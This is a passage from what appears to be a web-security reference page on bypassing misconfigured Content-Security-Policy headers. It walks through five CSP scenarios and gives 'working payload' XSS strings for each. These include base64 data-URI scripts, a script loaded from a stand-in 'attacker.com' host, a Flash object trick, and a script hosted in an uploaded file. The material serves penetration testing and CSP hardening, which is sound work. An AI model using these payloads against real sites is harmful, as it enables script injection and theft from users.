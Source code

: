 ```
By observing this policy we can say it's damn vulnerable and will allow inline scripting as well . The reason behind that is the usage of unsafe-inline source as a value of script-src directive.

**working payload**: "/><script>alert(1337);</script>

**Scenario : 2**

```
Content-Security-Policy: script-src https://facebook.com https://google.com 'unsafe-eval' data: http://*; child-src 'none'; report-uri /Report-parsing-url;

```
Again this is a misconfigured CSP policy due to usage of unsafe-eval.

**working payload** : 
<script src="data:;base64,YWxlcnQoZG9jdW1lbnQuZG9tYWluKQ=="></script>

**Scenario : 3**

```
Content-Security-Policy: script-src 'self' https://facebook.com https://google.com https: data *; child-src 'none'; report-uri /Report-parsing-url;

```
Again this is a misconfigured CSP policy due to usage of a wildcard in script-src.
***working payloads*** :
``
"/>'><script src=https://attacker.com/evil.js></script>
"/>'><script src=data:text/javascript,alert(1337)></script>

``
**Scenario: 4**
```
Content-Security-Policy: script-src 'self' report-uri /Report-parsing-url;

```
Misconfigured CSP policy again! we can see object-src and default-src are missing here.
**working payloads** :
```
<object data="data:text/html;base64,PHNjcmlwdD5hbGVydCgxKTwvc2NyaXB0Pg=="></object>
">'><object type="application/x-shockwave-flash" data='https: //ajax.googleapis.com/ajax/libs/yui/2.8.0 r4/build/charts/assets/charts.swf?allowedDomain=\"})))}catch(e) {alert(1337)}//'>
<param name="AllowScriptAccess" value="always"></object>

```
**Scenario:** 5

```
Content-Security-Policy: script-src 'self'; object-src 'none' ; report-uri /Report-parsing-url;

```
we can see object-src is set to none but yes this CSP can be bypassed too to perform XSS. How ? If the application allows users to upload any type of file to the host. An attacker can upload any malicious script and call within any tag.
**working payloads** :
```
"/>'><script src="/user_upload/mypic.png.js"></script>
